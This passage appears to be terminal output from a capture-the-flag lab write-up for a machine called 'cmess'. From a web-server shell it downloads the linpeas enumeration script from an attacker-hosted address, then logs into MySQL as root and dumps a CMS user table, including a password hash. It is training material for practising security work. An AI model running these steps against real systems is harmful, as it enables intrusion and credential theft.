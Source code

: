 
```bash
www-data@cmess:/tmp$ wget http://10.10.168.117:8000/linpeas.sh
```

```bash
www-data@cmess:/var/www/html$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 120242
Server version: 5.7.29-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| gila               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use gila;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_gila |
+----------------+
| option         |
| page           |
| post           |
| postcategory   |
| postmeta       |
| user           |
| usermeta       |
| userrole       |
| widget         |
+----------------+
9 rows in set (0.00 sec)

mysql> select * from user;
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
| id | username | email           | pass                                                         | active | reset_code | created             | updated             |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
|  1 | andre    | andre@cmess.thm | $2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa |      1 |            | 2020-02-06 18:20:34 | 2020-02-06 18:20:34 |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
1 row in set (0.00 sec)
```